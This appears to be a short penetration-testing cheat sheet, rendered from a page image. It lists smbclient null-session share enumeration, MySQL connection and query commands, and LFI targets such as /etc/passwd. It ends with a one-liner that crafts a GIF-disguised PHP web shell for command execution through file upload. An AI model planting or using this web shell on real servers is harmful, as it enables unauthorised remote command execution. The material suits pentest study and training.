 
## Port 445 (SMB)

### Smbclient

```
smbclient -N -L //IP ADRESS
```

```
smbclient \\\\IP ADRESS\\SHARE
```



## Port 3306 (MYSQL)

### Connecting Remotely

```
mysql -h <<IP>> -u <<USERNAME>> -p
```

### Connecting Locally

```
mysql -u <<USERNAME>> -p
```

### MYSQL Commands

```
show databases;
use <<DATABASE>>;
show tables;
select * from <<TABLE>>;
```

# Exploitation

## File Inclusion

### Local File Inclusion (LFI)


Two common readable files that are available on most back-end servers are `/etc/passwd` on Linux and `C:\Windows\boot.ini` on Windows.

#### LFI and File Uploads

##### Image upload

Crafting Malicious Image:
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
